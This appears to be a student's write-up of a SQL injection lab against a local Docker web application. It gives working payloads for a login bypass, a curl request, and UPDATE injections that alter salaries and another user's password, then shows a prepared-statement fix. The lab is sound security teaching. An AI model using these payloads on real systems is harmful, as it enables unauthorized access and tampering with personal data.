





# SQL Injection Attack Lab

SQL injection is a code injection technique that exploits the vulnerabilities in the interface between web applications and database servers.

Web applications often take user *inputs* to construct SQL queries for retrieving or storing data in a database. If these queries are not properly constructed, SQL injection vulnerabilities can arise.


## Lab Environment Setup:

1. Map the web application's hostname `www.seed-server.com` to the container’s IP address `10.9.0.5`, by adding this entry to the `/etc/hosts` file.

    ```bash
    sudo gedit /etc/hosts

    #add the following entry
    10.9.0.5    www.seed-server.com
    ```

2. To set up this web application, there are two containers, one for hosting the *web application*, and the other for hosting *the database* for the web application.
    - Use the docker-compose.yml file to set up the lab environment.
    ```bash
    $ dcbuild # Alias for: docker-compose build
    $ dcup  # Alias for: docker-compose up
    ```

    - All the containers will be running in the background.
    ```bash
    # to find out the ID of the container
    # Alias for: docker ps --format "{{.ID}} {{.Names}}"
    $ dockps

    # to start a shell on that container
    # Alias for: docker exec -it <id> /bin/bash
    $ docksh <id>
    ```
    - Example:
    ```bash
    #in one terminal:

    $ dockps
    6f9ac28727e7  mysql-10.9.0.6
    501c8b535e7a  www-10.9.0.5

    $ docksh 6f # SQL database container

    #in another terminal:

    $ docksh 50 # web application container
    ```

## Task 1: Get Familiar with SQL Statements:

The data used by our web application is stored in a MySQL database, which is **hosted on our MySQL container**. We have created a database called `sqllab_users`, which contains a table called `credential`. The table stores the personal information (e.g. eid, password, salary, ssn, etc.) of every employee.

Inside the MySQL container:
```
# mysql -u root -pdees

mysql> use sqllab_users;
Database changed

mysql> show tables;
+------------------------+
| Tables_in_sqllab_users |
+------------------------+
| credential             |
+------------------------+
```

Use a SQL command to print all the profile information of the employee *Alice*:
```sql
select * from credential where Name='Alice';
```

## Task 2: SQL Injection Attack on *SELECT* Statement:

### Task 2.1: SQL Injection Attack from webpage.
- Username: `Admin' #`
- Password: Whatever you want, leave it empty even...

    It's like using a SQL query like this:
    ```sql
    select *
    from credential
    where name= 'Admin' #' and password='whatever';
    ```
    ```sql
    --normally it'd be something like this:
    where name= 'Admin' and password='admin-passwd';
    ```

    `#` is used to begin a comment in MySQL. Everything following the `#` is ignored by the query. So, we deleted the `and` condition, and the query now only checks for a match on the `name` field, allowing attackers to log in as Admin regardless of the password.

---
### Task 2.2: SQL Injection Attack from command line.
The same as Task 2.1, but without using the webpage.
- Using the command `curl`: which can send HTTP GET requests.
- If you want to include multiple parameters (*username*, *password*) in HTTP requests, you need to put the URL and the parameters between a pair of single quotes.

    ```bash
    # sending an HTTP GET request
    $ curl 'http://www.seed-server.com/unsafe_home.php?username=Admin%27%20%23Password=whatever'

    # so it's like
    username= Admin' #
    password= whatever
    ```
    Special characters are encoded:
    - `%27` = single quote
    - `%20` = space
    - `%23` = hashtag #

- Then, export the html output into a `file.html` and open it. It contains all information we need but lacks the layout controls by a specified `CSS` file.
---
### Task 2.3: Append a new SQL statement.

Using an SQL query like this:
```sql
INSERT INTO credential (name, eid) VALUES ('Hello','123456');
```
Username: `a'; INSERT INTO credential (name, eid) VALUES ('Hello','123456') #`



It doesn't support for multiple queries as we can see.

## Task 3: SQL Injection Attack on *UPDATE* Statement:

### Task 3.1: Modify your own salary.
Log in as Alice and modify any field with:
```sql
', Salary=1000000 where name='Alice'#
```
---
### Task 3.2: Modify other people’ salary.
Log in as Alice and modify any field with:
```sql
', Salary=1 where name='Boby'#
```
---
### Task 3.3: Modify other people’ password.
Use a SHA1 hash function generator:



Log in as Alice and modify any field with:
```sql
', password='b0fdeba62faee00f08540fdd2d312404e5079938' where name='Boby' #
```
Check if Boby's password was modified:



## Task 4: Countermeasure — Prepared Statement:

1. Inside the lab setup folder, We'll modify the `unsafe.php` program inside the `image_www/Code/defense` folder.

    These are the lines that are *unsafe*:
    ```php
    $result = $conn->query("SELECT id, name, eid, salary, ssn
                            FROM credential
                            WHERE name= '$input_uname' and Password= '$hashed_pwd'");
    if ($result->num_rows > 0) {
    // only take the first row 
    $firstrow = $result->fetch_assoc();
    $id     = $firstrow["id"];
    $name   = $firstrow["name"];
    $eid    = $firstrow["eid"];
    $salary = $firstrow["salary"];
    $ssn    = $firstrow["ssn"];
    }
    ```

    We'll change them to:
    ```php
    $stmt = $conn->prepare("SELECT id, name, eid, salary, ssn
                            FROM credential
                            WHERE name=? and Password=?");

    $stmt->bind_param("ss", $input_uname, $hashed_pwd);
    $stmt->execute();
    $stmt->bind_result($id, $name, $eid, $salary, $ssn);
    $stmt->fetch();
    ```

    Now, the query structure cannot be changed by user inputs, and inputs are **Data-Only**, so SQL commands from user inputs are ignored.

2. After you are done, you need to **rebuild and restart the container**, or the changes will not take effect. Also, make sure to move all the files inside the `defense` folder to the `code` folder because of the `docker-compose.yml`.

3. Open the website and see if the attacks still work. (They shouldn't).

    

    